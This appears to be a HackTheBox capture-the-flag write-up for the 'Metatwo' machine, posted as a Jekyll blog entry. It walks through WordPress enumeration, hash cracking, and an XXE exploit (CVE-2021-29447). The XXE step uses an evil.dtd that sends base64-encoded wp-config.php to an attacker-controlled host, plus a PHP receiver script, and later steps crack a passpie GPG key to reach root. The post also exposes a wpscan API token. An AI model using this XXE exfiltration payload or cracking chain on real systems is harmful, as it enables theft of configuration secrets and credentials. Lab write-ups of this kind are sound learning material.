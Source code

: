 ```yaml
---
layout: post
title: "Metatwo"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, web, linux, wordpress, privesc]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


```bash
sudo nmap -sC -sV -p- -T4 -oN metatwo 10.10.11.186
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153027.png)


we got ftp, http and ssh 

I tried ftp anonymous , but didn't lead us anywhere 

let's explore the port 80 

`wordpress` , I tried `admin:admin` but didn't help 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153402.png)

if we look around and we tried to read the source page of the wordpress files we will found the following 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153826.png)

if we google this plugin
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529153948.png)

![/home/user/myblog/_site](/assets/img/posts/Delivery/Pasted image 20240529154459.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529154537.png)let's crack them 

```bash
hashcat -a 0 -m 400 hashe --user --show
```

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529160523.png)
we can  login as a manager 


I will use `wpscan` to enumerate wordpress
```bash
wpscan  --url http://metapress.htb --enumerate ap --api-token CvPFdrygDgoTsTqclRanY8Xdf0r5iyLSNIP > wpscan_enumerate_ap
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529160827.png)

I will use this https://github.com/0xRar/CVE-2021-29447-PoC but I will modifcate I litle 

in the evil.dtd 
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.4:80/index.php?content=%file;'>" >
```

this will get us file on `base64` we can use php script to decode it on index.php
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```


now let's upload the `payload.wav` 

and run our server
```php
php -S 0.0.0.0:80
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161315.png)

http://metapress.htb/wp-admin/upload.php
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161402.png)

on our php server 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161519.png)


we got ftp creds , after login I  find a file `send_email.php` and  ssh creds on it
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161638.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161705.png)

interesting directory![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240529161736.png)

![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529161815.png)

this utility used to store password and it encrypts them using the `.keys` 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240529161911.png)

cracking the private key offline

```bash
gpg2john gpg > hashes 
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162050.png)
```bash
john wordlist=/usr/share/wordlists/rockyou.txt hashes
```
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162311.png)
```bash
passpie export root
``` 
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162504.png)
![/home/user/myblog/_site](/assets/img/posts/MetaTwo/Pasted image 20240529162614.png)